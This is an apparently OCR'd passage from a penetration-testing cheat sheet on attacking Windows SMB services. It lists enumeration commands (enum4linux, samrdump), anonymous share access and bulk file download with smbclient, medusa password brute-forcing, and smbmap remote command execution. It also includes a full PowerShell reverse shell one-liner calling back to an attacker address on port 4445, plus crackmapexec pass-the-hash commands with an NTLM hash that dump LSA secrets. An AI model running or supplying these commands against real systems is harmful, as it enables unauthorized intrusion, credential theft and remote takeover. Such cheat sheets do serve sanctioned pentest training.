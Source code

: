 #Exploit
enum4linux -a 10.11.1.111
enum4linux-ng.py 10.11.1.111 -A -C
/usr/share/doc/python3-impacket/examples/samrdump.py 10.11.1.111
```
{% endtab %}

{% tab title="SMBClient" %}
```
 #smbclient //[ip]/[sharename] -U user, -p port
 #smbclient //[ip]/[sharename] -U Anonymous [do not use a password]
```

Pull down files

```
/> mget *
```
{% endtab %}

{% tab title="SMB Brute force" %}
```
#medusa -h <host.ip> -u <account.name> -P /path/to/wordlist -M smbnt
```
{% endtab %}

{% tab title="SMBMap" %}
### [SMBmap](https://github.com/byt3bl33d3r/smbmap)

```
smbmap.py -H 10.11.1.111 -u administrator -p asdf1234 #Enum
smbmap.py -u username -p 'P@$$w0rd1234!' -d DOMAINNAME -x 'net group "Domain Admins" /domain' -H 10.11.1.111 #RCE
smbmap.py -H 10.11.1.111 -u username -p 'P@$$w0rd1234!' -L # Drive Listing
smbmap.py -u username -p 'P@$$w0rd1234!' -d ABC -H 10.11.1.111 -x 'powershell -command "function ReverseShellClean {if ($c.Connected -eq $true) {$c.Close()}; if ($p.ExitCode -ne $null) {$p.Close()}; exit; };$a=""""192.168.0.X""""; $port=""""4445"""";$c=New-Object system.net.sockets.tcpclient;$c.connect($a,$port) ;$s=$c.GetStream();$nb=New-Object System.Byte[] $c.ReceiveBufferSize  ;$p=New-Object System.Diagnostics.Process  ;$p.StartInfo.FileName=""""cmd.exe""""  ;$p.StartInfo.RedirectStandardInput=1  ;$p.StartInfo.RedirectStandardOutput=1;$p.StartInfo.UseShellExecute=0  ;$p.Start()  ;$is=$p.StandardInput  ;$os=$p.StandardOutput  ;Start-Sleep 1  ;$e=new-object System.Text.AsciiEncoding  ;while($os.Peek() -ne -1){$out += $e.GetString($os.Read())} $s.Write($e.GetBytes($out),0,$out.Length)  ;$out=$null;$done=$false;while (-not $done) {if ($c.Connected -ne $true) {cleanup} $pos=0;$i=1; while (($i -gt 0) -and ($pos -lt $nb.Length)) { $read=$s.Read($nb,$pos,$nb.Length - $pos); $pos+=$read;if ($pos -and ($nb[0..$($pos-1)] -contains 10)) {break}}  if ($pos -gt 0){ $string=$e.GetString($nb,0,$pos); $is.write($string); start-sleep 1; if ($p.ExitCode -ne $null) {ReverseShellClean} else {  $out=$e.GetString($os.Read());while($os.Peek() -ne -1){ $out += $e.GetString($os.Read());if ($out -eq $string) {$out="""" """"}}  $s.Write($e.GetBytes($out),0,$out.length); $out=$null; $string=$null}} else {ReverseShellClean}};"' # Reverse Shell
```
{% endtab %}

{% tab title="CrackMapExec" %}
### [CrackmapExec](https://github.com/byt3bl33d3r/CrackMapExec)

* [https://cheatsheet.haax.fr/windows-systems/exploitation/crackmapexec/](https://cheatsheet.haax.fr/windows-systems/exploitation/crackmapexec/)

```
crackmapexec smb 10.55.100.0/23 -u LA-ITAdmin -H 573f6308519b3df23d9ae2137f549b15 --local
crackmapexec smb 10.55.100.0/23 -u LA-ITAdmin -H 573f6308519b3df23d9ae2137f549b15 --local --lsa
```


{% endtab %}

```